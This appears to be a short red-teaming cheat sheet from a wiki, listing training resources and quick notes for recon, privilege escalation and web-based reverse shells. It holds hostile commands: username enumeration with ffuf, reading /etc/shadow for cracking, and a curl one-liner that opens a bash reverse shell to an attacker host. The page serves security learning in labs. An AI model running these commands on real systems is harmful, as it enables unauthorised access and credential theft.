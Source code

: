 ```yaml
---
title: "Red Teaming"
---
```


!!! info
    [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) |
    [CyberChef](https://cyberchef.org/) |
    [SecLists](https://github.com/danielmiessler/SecLists) |
    [IPPSEC knowledgebase](https://ippsec.rocks/)

## Learning Resources

- [ITI0216](http://ois2.taltech.ee/uusois/aine/ITI0216) or [ITI0103](http://ois2.taltech.ee/uusois/aine/ITI0103) courses at TalTech which use many RangeForce labs to go over all essential RedTeaming techniques.
- [Hack The Box](https://www.hackthebox.com/)
- [IppSec YouTube Channel](https://www.youtube.com/@ippsec/videos) - HtB walkthroughs and explanations
- [Tuoni GitHub Repository](https://github.com/shell-dot/tuoni) and [Tuoni Documentation](https://docs.shelldot.com/)

## Recon/Scan

- **Nmap**: `sudo nmap -sC -sV -vv -oA nmap/<output name> <IP or range>`

- **Burp Suite**: Intercept outgoing requests, send to Repeater to modify and test. Use raw tab to inspect exact request/response.

- **Ffuf**: Repeat saved Burp request for fuzzing:
  - Example: enumerate valid usernames by filtering error messages  
    `ffuf -request login.req -request-proto http -w rockyou.txt -fr 'is not recognized as a valid user name'`

- **Web Plugin Scans**: Use tools like `wpscan` for WordPress or CMS plugin vulnerabilities.

- **Git Exposure**: If `.git` directory is accessible on the server, use `git-dumper` to retrieve repo contents.

- **Source Code Vulnerability Analysis**: Tools like `Snyk` or `opengrep` can scan for insecure code patterns or dependencies.

- **User capabilities**:
  - Check if user can `sudo`, sometimes will list specific executables if full sudo not possible: `sudo -l`
  - Find suid executables: `find / -perm -4000 -type f -writable 2>/dev/null`
  - Check `/etc/shadow` and `/etc/passwd`: use `unshadow` if both available.

## Reverse shell / Proxies / Port forwards

If commands can be executed via web requests using a la `cmd` param: `curl -G http://<target IP>/shell/path --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<kali ip>/9001 0>&1"'`
